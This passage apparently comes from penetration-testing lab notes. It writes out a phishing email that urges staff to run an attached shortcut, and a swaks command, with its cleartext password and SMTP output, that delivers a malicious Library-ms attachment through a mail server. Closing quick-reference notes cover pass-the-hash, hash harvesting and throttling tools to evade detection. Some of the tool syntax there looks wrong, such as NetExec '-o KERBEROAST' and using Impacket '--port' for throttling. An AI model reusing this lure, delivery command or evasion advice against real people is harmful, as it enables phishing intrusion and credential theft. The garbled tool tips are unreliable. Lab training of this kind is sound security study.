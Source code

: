 * Step 5 Create the body content

```bash
Hey!
I checked WEBSRV1 and discovered that the previously used staging script still exists in the Git logs. I'll remove it for security reasons.

On an unrelated note, please install the new security features on your workstation. For this, download the attached file, double-click on it, and execute the configuration shortcut within. Thanks!

Alex
```

* Step 6 Send the phsing email
```bash
kali@kali:~/beyond$ sudo swaks -t daniela@beyond.com -t marcus@beyond.com --from john@beyond.com --attach @config.Library-ms --server 192.168.50.242 --body @body.txt --header "Subject: Staging Script" --suppress-data -ap
Username: john
Password: dqsTwTpZPn#nL
=== Trying 192.168.50.242:25...
=== Connected to 192.168.50.242.
<-  220 MAILSRV1 ESMTP
 -> EHLO kali
<-  250-MAILSRV1
<-  250-SIZE 20480000
<-  250-AUTH LOGIN
<-  250 HELP
 -> AUTH LOGIN
<-  334 VXNlcm5hbWU6
 -> am9obg==
<-  334 UGFzc3dvcmQ6
 -> ZHFzVHdUcFpQbiNuTA==
<-  235 authenticated.
 -> MAIL FROM:<john@beyond.com>
<-  250 OK
 -> RCPT TO:<marcus@beyond.com>
<-  250 OK
 -> DATA
<-  354 OK, send.
 -> 36 lines sent
<-  250 Queued (1.088 seconds)
 -> QUIT
<-  221 goodbye
=== Connection closed with remote host.
```

---

### Quick Reference Notes
- When only an NT hash is available, prepend the empty LM hash (`aad3b435b51404eeaad3b435b51404ee:`) to satisfy tools that expect both halves.
- Combine NetExec with `-o KERBEROAST` or Impacket’s `GetNPUsers.py` to harvest additional hashes before pivoting.
- For noisy environments, throttle NetExec with `--rate` and Impacket with `--port` adjustments to avoid detection.
